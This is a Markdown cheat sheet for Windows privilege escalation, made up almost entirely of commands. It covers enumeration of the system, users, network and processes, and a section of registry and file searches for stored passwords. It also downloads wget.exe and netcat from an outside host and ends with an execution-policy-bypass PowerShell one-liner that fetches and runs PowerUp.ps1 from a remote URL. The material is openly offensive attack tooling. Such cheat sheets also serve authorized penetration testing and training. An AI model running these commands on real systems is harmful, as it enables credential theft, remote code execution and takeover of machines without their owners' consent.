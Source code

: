 # Windows - Privilege Escalation
Almost all of the following commands are from [The Open Source Windows Privilege Escalation Cheat Sheet](https://addaxsoft.com/wpecs/)


## Windows Version and Configuration
```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Architecture
```powershell
wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
```


List all env variables
```powershell
set
```

List all drives
```powershell
wmic logicaldisk get caption || fsutil fsinfo drives
```

## User Enumeration

Get current username
```powershell
echo %USERNAME% || whoami
```

List all users
```powershell
net user
whoami /all
```

List logon requirements; useable for bruteforcing
```powershell
net accounts
```

Get details about a user (i.e. administrator, admin, current user)
```powershell
net user administrator
net user admin
net user %USERNAME%
```

List all local groups
```powershell
net localgroup
```

Get details about a group (i.e. administrators)
```powershell
net localgroup administrators
```

## Network Enumeration

List all network interfaces
```powershell
ipconfig /all
```

List current routing table
```powershell
route print
```

List the ARP table
```powershell
arp -A
```

List all current connections
```powershell
netstat -ano
```

List firware state and current configuration
```powershell
netsh advfirewall firewall dump
```

List all network shares
```powershell
net share
```

## Looting for passwords

Search for file contents
```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
```

Search for a file with a certain filename
```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
```

Search the registry for key names
```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K
```

Read a value of a certain sub key
```powershell
REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
```

## Processes Enum
What processes are running?
```powershell
tasklist /v
```

Which processes are running as "system"
```powershell
tasklist /v /fi "username eq system"
```

Do you have powershell magic?
```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
```


## Uploading / Downloading files
a wget using powershell
```powershell
powershell -Noninteractive -NoProfile -command "wget https://addaxsoft.com/download/wpecs/wget.exe -UseBasicParsing -OutFile %TEMP%\wget.exe"
```

wget using bitsadmin (when powershell is not present)
```powershell
cmd /c "bitsadmin /transfer myjob /download /priority high https://addaxsoft.com/download/wpecs/wget.exe %TEMP%\wget.exe"
```

now you have wget.exe that can be executed from %TEMP%wget for example I will use it here to download netcat
```powershell
%TEMP%\wget https://addaxsoft.com/download/wpecs/nc.exe
```

## Spot the weak service using PowerSploit's PowerUP
```powershell
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```

## Thanks to
* [The Open Source Windows Privilege Escalation Cheat Sheet by amAK.xyz and @xxByte](https://addaxsoft.com/wpecs/)
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)